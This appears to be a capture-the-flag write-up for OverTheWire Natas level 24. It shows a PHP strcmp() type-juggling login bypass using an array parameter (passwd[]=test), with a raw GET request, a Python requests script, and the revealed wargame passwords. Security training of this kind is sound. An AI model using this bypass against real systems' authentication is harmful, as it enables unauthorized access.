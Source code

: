 # Natas CTF Solutions  

## Natas Level 24  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Bypass the `strcmp()` function using type juggling to reveal the password.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas24.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas24`  
- **Password:** Use the password from Natas Level 23:  
```
MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
```  

![Home_Page](https://github.com/user-attachments/assets/7338e869-af31-45a9-b013-7d6f9b331942)

---

### **Step 3: Analyze the Source Code**  
Key part of the code:  
```php
if(strcmp($_REQUEST["passwd"],"admin") == 0) {
    print "Access granted. The password for natas25 is: XXXXX";
}
else {
    print "Wrong password!";
}
```

### **Understanding `strcmp()`**  
- `strcmp()` returns:  
  - `0` → if the two strings are equal.  
  - `<0` → if the first string is less than the second string.  
  - `>0` → if the first string is greater than the second string.  
- If you pass `passwd=test`, it returns **"Wrong password!"**  
- But if you pass `passwd[]=test`, it becomes an **array**, which results in `strcmp()` receiving `null`, causing it to return `0` → condition becomes `true`!  

![Source_Code](https://github.com/user-attachments/assets/4bb7348c-12d5-48ee-b696-9fc3ebc613bf)

---

### **Step 4: Send Payload**  
Use the following GET request:  

```http
GET /?passwd[]=test HTTP/1.1
Host: natas24.natas.labs.overthewire.org
```

✅ Example in Python:  
```python
import requests
from requests.auth import HTTPBasicAuth

username = "natas24"
password = "MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd"

url = "http://natas24.natas.labs.overthewire.org"
payload = {'passwd[]': 'test'}

response = requests.get(url, auth=(username, password), params=payload)
print(response.text)
```

---

### **Step 5: Output**  
If successful, the output will reveal the password for the next level:  
```  
The password for natas25 is: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws  
```  

![Password](https://github.com/user-attachments/assets/6aa6ce03-9cec-4d7b-8354-3fe828a965f0)

---

### **✅ Password for Natas Level 25**  
```
ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
```  

---

## 💡 **Lessons Learned**  
✔️ **Type Juggling:** Arrays vs strings can confuse PHP’s comparison functions.  
✔️ **PHP Type Handling:** `strcmp()` can return `0` if the first value is `null` due to passing an array.  
✔️ **Parameter Injection:** Using non-standard inputs like arrays can lead to logic bypasses.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Source Code | ![Source_Code](https://github.com/user-attachments/assets/4bb7348c-12d5-48ee-b696-9fc3ebc613bf) |  
| Step 4 – Found Password | ![Password](https://github.com/user-attachments/assets/6aa6ce03-9cec-4d7b-8354-3fe828a965f0) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 25**:  
👉 [http://natas25.natas.labs.overthewire.org](http://natas25.natas.labs.overthewire.org)  

---
